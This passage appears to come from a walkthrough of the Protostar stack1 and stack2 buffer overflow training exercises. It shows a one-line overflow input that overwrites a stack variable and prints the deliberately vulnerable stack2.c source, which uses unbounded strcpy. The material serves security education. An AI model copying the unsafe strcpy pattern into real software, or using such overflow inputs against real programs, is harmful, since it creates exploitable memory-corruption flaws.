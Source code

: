 ```
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
For this exercise, the goal is to change the "modified" variable to be 0x61626364. Since the buffer is the same, we already know to send 76 characters before we can overwrite the variable.

When writing our A's to the stack, it will be seen that we are writing 0x41414141 (41 = A in hex. Information on the conversions can be found [here](http://www.asciitable.com/)) and if we were to send 80 A's to the program, we will be shown that the variable has the value "0x41414141".

Now we could simply just do this by hand and look for each value 61, 62, 63, 64. Or we could just use the python library "struct".
As seen in the exploit code below, this gives the output dcba. Which, when passed into the program, gives us the correct output.

### Exploit Code
```
>>> import struct
>>> struct.pack("<L",0x61626364)
'dcba'

./stack1 $(python -c "print 'A' * 76 + 'dcba'")



```

## Stack2.c
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```